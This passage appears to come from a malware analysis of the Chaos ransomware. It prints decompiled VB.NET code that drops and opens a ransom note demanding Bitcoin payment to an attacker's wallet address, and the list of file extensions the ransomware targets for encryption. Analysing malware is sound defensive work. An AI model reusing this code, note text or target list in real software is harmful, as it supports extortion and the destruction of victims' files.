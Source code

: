 ### addAndOpenNote (Ransomware Note)

```
Private Shared droppedMessageTextbox As String = "read_it.txt"

Private Shared messages As String() = New String() { "----> Chaos is multi language ransomware. Translate your note to any language <----", "All of your files have been encrypted", "Your computer was infected with a ransomware virus. Your files have been encrypted and you won't ", "be able to decrypt them without our help.What can I do to get my files back?You can buy our special ", "decryption software, this software will allow you to recover all of your data and remove the", "ransomware from your computer.The price for the software is $1,500. Payment can be made in Bitcoin only.", "How do I pay, where do I get Bitcoin?", "Purchasing Bitcoin varies from country to country, you are best advised to do a quick google search", "yourself  to find out how to buy Bitcoin. ", "Many of our customers have reported these sites to be fast and reliable:", "Coinmama - hxxps://www.coinmama.com Bitpanda - hxxps://www.bitpanda.com", "", "Payment informationAmount: 0.1473766 BTC", "Bitcoin Address:  bc1qlnzcep4l4ac0ttdrq7awxev9ehu465f2vpt9x0", "" }

Private Shared Sub addAndOpenNote()
	Dim text As String = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\" + Program.droppedMessageTextbox
	Try
		File.WriteAllLines(text, Program.messages)
		Thread.Sleep(500)
		Process.Start(text)
	Catch
	End Try
End Sub
```

This code creates a "read_it.txt" file with a ransom message and then opens it. The message states that the user's files are encrypted and demands a Bitcoin payment to decrypt them.

### validExtensions

```
Private Shared validExtensions As String() = New String() {
    ".txt", ".jar", ".dat", ".contact", ".settings", ".doc", ".docx", ".xls",
    ".xlsx", ".ppt", ".pptx", ".odt", ".jpg", ".mka", ".mhtml", ".oqy",
    ".png", ".csv", ".py", ".sql", ".mdb", ".php", ".asp", ".aspx", ".html",
    ".htm", ".xml", ".psd", ".pdf", ".xla", ".cub", ".dae", ".indd",
    ".cs", ".mp3", ".mp4", ".dwg", ".zip", ".rar", ".mov", ".rtf", ".bmp",
    ".mkv", ".avi", ".apk", ".lnk", ".dib", ".dic", ".dif", ".divx", ".iso",
    ".7zip", ".ace", ".arj", ".bz2", ".cab", ".gzip", ".lzh", ".tar", ".jpeg",
    ".xz", ".mpeg", ".torrent", ".mpg", ".core", ".pdb", ".ico", ".pas", ".db",
    ".wmv", ".swf", ".cer", ".bak", ".backup", ".accdb", ".bay", ".p7c", ".exif",
    ".vss", ".raw", ".m4a", ".wma", ".flv", ".sie", ".sum", ".ibank", ".wallet",
    ".css", ".js", ".rb", ".crt", ".xlsm", ".xlsb", ".7z", ".cpp", ".java",
    ".jpe", ".ini", ".blob", ".wps", ".docm", ".wav", ".3gp", ".webm", ".m4v",
    ".amv", ".m4p", ".svg", ".ods", ".bk", ".vdi", ".vmdk", ".onepkg", ".accde",
    ".jsp", ".json", ".gif", ".log", ".gz", ".config", ".vb", ".m1v", ".sln",
    ".pst", ".obj", ".xlam", ".djvu", ".inc", ".cvs", ".dbf", ".tbi", ".wpd",
    ".dot", ".dotx", ".xltx", ".pptm", ".potx", ".potm", ".pot", ".xlw", ".xps",
    ".xsd", ".xsf", ".xsl", ".kmz", ".accdr", ".stm", ".accdt", ".ppam", ".pps",
    ".ppsm", ".1cd", ".3ds", ".3fr", ".3g2", ".accda", ".accdc", ".accdw", ".adp",
    ".ai", ".ai3", ".ai4", ".ai5", ".ai6", ".ai7", ".ai8", ".arw", ".ascx",
    ".asm", ".asmx", ".avs", ".bin", ".cfm", ".dbx", ".dcm", ".dcr", ".pict",
    ".rgbe", ".dwt", ".f4v", ".exr", ".kwm", ".max", ".mda", ".mde", ".mdf",
    ".mdw", ".mht", ".mpv", ".msg", ".myi", ".nef", ".odc", ".geo", ".swift",
    ".odm", ".odp", ".oft", ".orf", ".pfx", ".p12", ".pl", ".pls", ".safe",
    ".tab", ".vbs", ".xlk", ".xlm", ".xlt", ".xltm", ".svgz", ".slk", ".tar.gz",
    ".dmg", ".ps", ".psb", ".tif", ".rss", ".key", ".vob", ".epsp", ".dc3",
    ".iff", ".onepkg", ".onetoc2", ".opt", ".p7b", ".pam", ".r3d"
}
```
